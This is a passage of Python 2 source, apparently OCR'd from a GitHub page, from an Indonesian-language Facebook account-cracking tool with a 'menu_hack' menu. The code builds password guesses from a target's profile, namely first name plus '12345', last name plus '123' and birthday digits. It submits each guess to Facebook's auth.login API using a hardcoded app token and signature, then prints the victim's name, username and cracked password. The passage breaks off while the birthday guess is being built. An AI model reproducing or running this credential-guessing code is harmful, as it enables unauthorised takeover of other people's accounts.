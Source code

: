                 print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
                raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                menu_hack()
            else:
                if 'www.facebook.com' in y['error_msg']:
                    print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                    print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
                    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                    menu_hack()
                else:
                    pz2 = a['first_name'] + '12345'
                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    y = json.load(data)
                    if 'access_token' in y:
                        print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                        print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
                        raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                        menu_hack()
                    else:
                        if 'www.facebook.com' in y['error_msg']:
                            print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                            print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
                            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                            menu_hack()
                        else:
                            pz3 = a['last_name'] + '123'
                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                            y = json.load(data)
                            if 'access_token' in y:
                                print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
                                raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                menu_hack()
                            else:
                                if 'www.facebook.com' in y['error_msg']:
                                    print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                    print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
                                    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                    menu_hack()
                                else:
                                    lahir = a['birthday']
                                    pz4 = lahir.replace('/', '')